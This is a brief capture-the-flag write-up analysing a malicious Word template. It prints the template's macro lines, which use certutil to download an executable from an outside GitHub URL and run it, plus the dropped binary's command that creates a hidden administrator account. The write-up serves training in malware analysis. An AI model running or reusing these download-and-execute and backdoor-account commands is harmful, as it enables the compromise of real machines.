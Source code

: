 # Task 1: Resign Letter
Question: 

Flag: `RWSC{p@ss123}`

We are given a weird document template file created by Microsoft Word. When opening it, macros can be found.

![image](https://hackmd.io/_uploads/BJ-lW6Hp6.png)

Opening the macro named `Test` as shown below provides us with the following code.

![image](https://hackmd.io/_uploads/rkgoLZaHap.png)

```
Shell ("cmd /c certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Adv_Sim/raw/main/lenovo.exe %temp%\lenovo.exe")
Shell ("cmd /c %temp%\lenovo.exe")
```

Downloading the mallicious binary and using strings, we can see that it executes:
```
cmd.exe /c net user f14g cEBzczEyMw== /ADD && net localgroup Administrators f14g /ADD
```

It tries to add the user `f14g` to the local machine and add it to the `Administrators` group. Decode the password with base64 for the flag.
